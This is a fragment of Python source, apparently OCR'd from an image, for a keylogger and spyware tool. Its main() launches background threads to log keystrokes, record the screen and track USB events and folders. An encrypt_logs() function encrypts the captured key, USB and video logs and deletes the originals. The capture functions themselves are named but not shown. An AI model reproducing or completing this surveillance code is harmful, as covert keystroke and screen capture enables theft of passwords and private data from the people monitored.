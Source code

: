 ```python

def encrypt_logs():
    for file_path in [KEY_LOG_FILE, USB_LOG_FILE, VIDEO_FILENAME]:
        if os.path.exists(file_path):
            with open(file_path, "rb") as f:
                encrypted = fernet.encrypt(f.read())
            with open(file_path + ".enc", "wb") as f:
                f.write(encrypted)
            os.remove(file_path)

def main():
    threading.Thread(target=log_keys, daemon=True).start()
    threading.Thread(target=record_screen, daemon=True).start()
    threading.Thread(target=log_usb_events_and_folders, daemon=True).start()
    try:
        while True:
            time.sleep(1)
    except KeyboardInterrupt:
        encrypt_logs()

if __name__ == "__main__":
    main()
```
